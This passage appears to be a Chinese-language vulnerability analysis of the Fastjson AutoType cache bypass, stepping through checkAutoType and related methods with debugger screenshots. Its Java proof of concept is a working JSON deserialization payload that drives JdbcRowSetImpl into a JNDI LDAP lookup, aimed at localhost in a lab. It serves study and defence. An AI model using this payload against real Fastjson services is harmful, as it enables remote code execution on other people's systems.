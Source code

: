 基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191

然后先尝试利用一下

```java
package JDBC;

import com.alibaba.fastjson.JSON;
//import com.alibaba.fastjson.parser.ParserConfig;

public class POC {
    public static void main(String[] argv){
        //ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://localhost:1099/#Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```

这里我使用的是ldap而不是rmi，因为我的jdk版本是8u172，使用rmi协议是无法利用成功的。

![image-20221008172128406](img/image-20221008172128406.png)

下面开始分析，看下POC是通过`java.lang.Class`，将`JdbcRowSetImpl`类加载到`Map`中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

主要看`ParserConfig.checkAutoType()`中好几个判断做了什么，这里可以看到如果`autuType`是开启的，那么就会进入后面的黑名单验证，通过验证就直接返回指定的类名。当然这里是我没有开启，所以就直接进入到红框中的部分，从`TypeUtils.getClassFromMapping()`去获取类，这个`typeName`是指`@type`指定的类。

![image-20221010115236239](img/image-20221010115236239.png)

`getClassFromMapping`方法是从Mappings字典中去获取。我在这里下了断点看看字典

![image-20221010120051293](img/image-20221010120051293.png)

如果 `@type` 指定的类，在缓存 `Mappings` 字典里找到的话，跳过 `checkAutoType`检测直接返回类对象。这里就是这个漏洞的关键，只要在 `Mappings` 里添加可以利用到的反序列化的类，就能绕过 `checkAutoType` 的黑名单检测。

如果不在`Mappings`中，那么就进入下一步

![image-20221010120337318](img/image-20221010120337318.png)

跟进`findClass()`方法，也下一个断点

![image-20221010123259014](img/image-20221010123259014.png)

然后可以发现POC中的payload可以满足。

![image-20221010123222317](img/image-20221010123222317.png)

然后返回checkAutoType，赋值给clazz，再继续进行反序列化

![image-20221010143145814](img/image-20221010143145814.png)
